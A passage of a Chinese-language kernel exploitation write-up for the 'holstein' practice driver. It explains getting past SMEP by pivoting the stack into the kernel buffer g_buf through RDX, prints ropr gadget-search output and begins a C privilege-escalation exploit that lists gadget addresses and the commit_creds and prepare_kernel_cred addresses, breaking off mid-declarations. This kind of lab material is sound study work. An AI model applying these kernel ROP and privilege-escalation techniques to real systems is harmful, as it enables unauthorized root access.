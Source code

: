 那么我们就可以使用mmap在内存空间中映射一块对应0x39000000的内存，然后在这段内存上布置kROP即可完成提权

将但是由于SMEP机制的存在，直接在用户空间中布置ROP链是不可执行的，所以我们要换种方法来利用。既然将ROP链布置在用户空间的内存上是不行的，那么就只有考虑将ROP布置在一个可以执行的位置上，在这个实验中，我们能控制写入的唯一一个可执行位置就是这个g_buf这段内核上的内存。

我们可以观察一下前面测试劫持时发生的crash时的寄存器情况：

```
RDX: 00000000cafebabe RSI: 00000000deadbeef RDI: ffff9a4bc1d0e400
```

可以发现在crash的时候，RDX和RSI中已经写入了我们在ioctl函数中填入的两个填充值，那么这里是否可以利用一下呢。

应该是可以的，可以通过这个寄存器来完成栈迁移，那么就需要寻找到一个gadget，来完成对rsp的赋值。

按照一般的思路来说，这个gadget应该完成一个mov rsp, rdx/rsi的操作,但是这样的gadget找不到，那就只有换一种方法，完成一个push rdx/rsi, pop rsp这样的操作。

那么根据这个思路可以找到：

```shell
➜  ropr --nouniq -R "^push rdx;.* pop rsp;.* ret" ./vmlinux
0xffffffff811077fc: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff81107826: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff811099b8: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
0xffffffff811cd945: push rdx; push 0x584a8348; adc [rbx+0x41], bl; pop rsp; pop rbp; ret;
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
0xffffffff814decce: push rdx; add [rbx+0x41], bl; pop rsp; pop r13; pop rbp; ret;
```

这里面的这个gadget就可以利用：

```
0xffffffff813a478a: push rdx; mov ebp, 0x415bffd9; pop rsp; pop r13; pop rbp; ret;
```

在这个gadget中，可以看到除了pop rsp操作外还有两个多余的pop操作，每次pop操作会使rsp+0x8，那么在开始向RDX中传入RSP时就要注意将RSP+0x10。

其他的操作就与栈溢出时没什么区别：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;

void spawn_shell();

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t stack_pivot = 0xffffffff813a478a;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff81074650;
uint64_t commit_creds = 0xffffffff810744b0;
uint64_t pop_rdi_ret = 0xffffffff8128b79c;
uint64_t mov_rdi_rax_ret = 0xffffffff8162707b;
uint64_t pop_rcx_ret = 0xffffffff814d52dc;
```